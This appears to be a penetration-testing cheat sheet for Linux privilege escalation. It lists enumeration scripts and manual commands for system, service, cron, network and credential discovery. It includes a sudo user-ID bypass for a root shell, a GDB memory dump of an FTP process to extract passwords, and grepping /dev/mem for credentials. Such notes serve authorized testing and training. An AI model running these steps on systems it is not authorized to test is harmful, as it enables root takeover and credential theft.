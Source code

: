 # OS

Lots of time can be saved by running linenum, lse, or Linpeas but below is how you can check stuff manualy and lots of stuff not done by the scripts.

LSE - https://github.com/diego-treitos/linux-smart-enumeration
Usage:
```
./lse.sh
```
```
./lse.sh -l1
```
```
./lse.sh -l2 | less -r
```

linemum - https://github.com/rebootuser/LinEnum
Usage:
```
./LinEnum.sh -r report -e /tmp/ #runs quick scan
```
```
./LinEnum.sh -r report -e /tmp/ -t #runs through slow test
```

linpeas - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Usage:
```
./linpeas.sh -a > /tmp/linpeas.txt 
less -r /dev/shm/linpeas.txt #Read with colors
```


## Distro?
```
cat /etc/issue
cat /etc/*-release
  cat /etc/lsb-release      # Debian based
  cat /etc/redhat-release   # Redhat based
```
## kernel? 64bit?
```
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```
## environmental variables?
```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
```
## printer?
```
lpstat -a
```

# Apps & Services
## What services are running? Which service has which user privilege?
```
ps aux
ps -ef
top
cat /etc/services
```
## Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!
```
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/
```

## Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

## What jobs are scheduled?
```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
## Any plain text usernames and/or passwords?
```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
```

## Sudo vulnerable?
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
sudo <= v1.28
```
sudo -u#-1 /bin/bash
```

## what commands do we have?

```
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null
```
## Compilers?
```
(dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/")
```

## memory dump using GDB on ftp service
```
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

## see if you read mem
```
strings /dev/mem -n10 | grep -i PASS
```

## loaded creds?
```
ps -ef | grep "authenticator"
```
## Network
General
```
Hostname, hosts and DNS
cat /etc/hostname /etc/hosts /etc/resolv.conf
dnsdomainname

#Content of /etc/inetd.conf & /etc/xinetd.conf
cat /etc/inetd.conf /etc/xinetd.conf

#Interfaces
cat /etc/networks
(ifconfig || ip a)

#Neighbours
(arp -e || arp -a)
(route || ip n)
ip n

#Iptables rules
(timeout 1 iptables -L 2>/dev/null; cat /etc/iptables/* | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null)

#Files used by network services
lsof -i
```
open ports on the system
```
(netstat -punta || ss --ntpu)
(netstat -punta || ss --ntpu) | grep "127.0"
```
sniffing
```
timeout 1 tcpdump
```

## check some drives
```
cat /etc/fstab
```


## Useful links
https://book.hacktricks.xyz/linux-unix/privilege-escalation#system-information
https://github.com/Tib3rius/Pentest-Cheatsheets/tree/master/privilege-escalation/linux
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

